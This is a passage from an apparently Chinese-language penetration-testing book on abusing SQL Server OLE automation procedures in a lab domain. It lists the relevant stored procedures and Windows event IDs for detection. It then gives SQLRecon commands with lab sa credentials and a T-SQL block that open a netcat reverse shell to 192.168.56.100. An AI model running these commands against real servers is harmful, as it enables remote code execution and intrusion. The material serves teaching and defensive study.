 通过事件 ID `15457`可以进行攻击检测，因为攻击者必须使用`sp_configure`。程序集创建将生成事件 ID `6299`，卸载程序集将生成事件 ID `10310`，卸载确认将生成事件 ID `6290`。通过关联和串联这四个事件，可以帮助可靠地检测恶意活动。

## OLE 自动化过程

**对象链接与嵌入**（**OLE**）技术允许你将一个应用程序中的对象链接到另一个应用程序中。OLE 自动化过程帮助 SQL Server 与 COM 对象进行交互。**组件对象模型**（**COM**）允许二进制软件组件之间的交互。OLE 自动化过程通过`odsole70.dll`与 COM 进行交互[23]。以下是可以用于命令执行的过程列表：

+   `sp_OACreate` – 创建一个 OLE 对象实例

+   `sp_OAMethod` – 调用 OLE 对象方法

+   `sp_OADestroy` – 销毁一个创建的 OLE 对象

+   `sp_OASetProperty` – 设置 OLE 对象属性

一些实际的 OLE 使用示例包括在 Web 服务器上创建 Web Shell、下载恶意软件、在文件系统中移动文件和执行命令。PowerUpSQL 中的`Invoke-SQLOSCmdCLR`函数将启用 OLE 自动化，执行命令，从临时文件读取命令输出，然后删除该文件。Metasploit 的`admin/mssql/mssql_exec`模块也可以切换到使用`sp_OACreate`过程。然而，是否能够获取结果将取决于攻击者使用的方法——例如，使用`OPENROWSET()`函数。以下是通过 SQLRecon 和`nc.exe`帮助获取交互式反向 Shell 的命令：

```
SQLRecon.exe /auth:Local /host:braavos.essos.local /username:sa /password:"sa_P@ssw0rd!Ess0s" /module:enableole
SQLRecon.exe /auth:Local /host:braavos.essos.local /username:sa /password:"sa_P@ssw0rd!Ess0s" /module:olecmd /command:"C:\Users\Public\nc.exe -e cmd 192.168.56.100 443"
```

成功执行的结果如下截图所示：

![图 9.18 – 通过 OLE 自动化过程执行操作系统命令](img/B18964_09_18.jpg)

图 9.18 – 通过 OLE 自动化过程执行操作系统命令

手动获取反向 Shell 的代码如下所示：

```
DECLARE @output INT
DECLARE @ProgramToRun VARCHAR(255)
SET @ProgramToRun = 'Run("cmd.exe /c C:\Users\Public\nc.exe -e cmd 192.168.56.100 443")'
EXEC sp_oacreate 'wScript.Shell', @output out
EXEC sp_oamethod @output, @ProgramToRun
EXEC sp_oadestroy @output
```
